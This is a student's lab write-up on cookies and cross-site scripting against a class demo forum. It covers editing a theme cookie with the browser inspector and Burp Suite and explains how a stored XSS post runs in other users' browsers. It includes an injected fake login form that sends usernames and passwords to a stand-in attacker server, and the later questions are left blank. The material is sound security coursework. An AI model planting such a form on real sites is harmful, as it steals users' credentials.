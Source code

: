 ***Lucky Beulla Muhoza***

***CS 338***

***Prof. Jeff Ondich***

## Cookies and cross-site scripting (XSS) ##

### Part 1: Cookies ###

1. Initial cookies for cs338.jeffondich.com - their names and values

   ***Yes, there is a cookie for the domain cs338.jeffondich.com/fdf/***
   * name: theme, value: default

2. Do cookies change with the theme?

    ***The value of the present cookie changes with the theme.***
   * For example: when I changed the theme to blue, the value associated with the theme cookie changed from default to blue
     
3. Step 1 and 2 using Burpsuite

    ***Using burpsuite, the HTTP request to cs338:jeffondich.com contains a Cookie header with its value theme set to default. The resulting HTTP response has a Set-Cookie header containing the theme as default, and experies with a data. When I change the theme of Jeff's site to be red, a new GET request is sent with theme set to red: GET /fdf/?theme=red HTTP 1.1. The Set-Cookie header in the response then has the theme value as red with the same expiration date. These changes in the cookie value are similar to those observed through the inspectpor tool***

   * Note: The very first HTTP GET request that was sent to cs338:jeffondich.com did not contain a Cookie header and the resulting response had a Set-Cookie header with the theme value. The subsequent GET requests to the site then had a Cookie header.

5. Relaunching the browser and going back to FDF.

   ***The theme to the FDF site stayed the same when I closed my Chrome browser and relaunched it. That is, I change the site from the default theme to blue and close it. When I relaunched the site, the theme was still blue***

6. How the current theme transmitted between the browser and the FDF server.

    ***When I visited the FDF site, my browser stored a cookie generated by the FDF server, in this case theme with its value. Thus when I refresh or relaunch the page, my browser automatically sends this theme cookie along with the request. The server then reads the cookie containing current value of my theme and responds with the appropriate version of the site***
   
6. How changing the theme is transmitted between the browser and the FDF server?

    ***Changing the theme updates the value of my local cookie and thus when my browser makes a new request to the server, the new value of the cookie is automatically sent as part of the HTTP request headers***

7. Using browser's inspector to change FDF theme
   
    ***Using the Inspector, in the applications tab, I was able to edit the value of the theme cookie by typing in a different theme option. When I refreshed the page, the FDF theme updated to the new set value***

8. Using Burpsuite's Proxy tool to change the FDF theme.

    ***By modifying the cookie header value of the intercepted request to the FDF server, I was able to get a response with the updated theme on the FDF site without using the theme menu***

9. Where my OS stores cookies.

    ***Each browser manages the directory and format in which its cookies are stored on my computer's hard drive***
     * For example the cookies from Google Chrome on my macOs are stored in the subdirectory ~/Library/Application Support/Google/Chrome/Default/Cookies
  
     ******

### Part 2: Cross-Site Scripting (XSS) ###

1. Step-by-step description of the nature and timing of Moriarty's attack on users of the FDF.

* Prof. Moriarty submits a post with inline HTML <span> and JavaScript <script> tags.
* The FDF server stores this unsanitized post content in its database.
* When another user clicks on Moriarty’s post, the server delivers the post content exactly as it was entered, including the <span> and <script> tags.
* The browser then interprets and executes these tag automatically as HTML and JavaScript thus Moriarty's alert and css text edits are displayed on the FDF site.

2. XSS attack that is more virulent than Moriarty's "turn something red" and "pop up a message" attacks.

   ***Moriarty could inject a fake login form into a post. When Alice views the post, she might think it is legitimae and try to login. Her username and password will then go to Moriarty instead of the real FDF server.***

  ```
  <form action="https://moriartys-server.com/steal-password" method="POST">
    <p>Your session has expired. Please log in again:</p>
    <input type="text" name="username" placeholder="Username">
    <input type="text" name="password" placeholder="Password">
    <button type="submit">Log In</button>
  </form>
  
  ```

3. A second attack that is more virulent than Moriarty's, but that's substantially different from my first idea.
4.
5.
6. Questions:

Do it again: describe a second attack that is more virulent than Moriarty's, but that's substantially different from your first idea.

What techniques can the server or the browser use to prevent what Moriarty is doing?


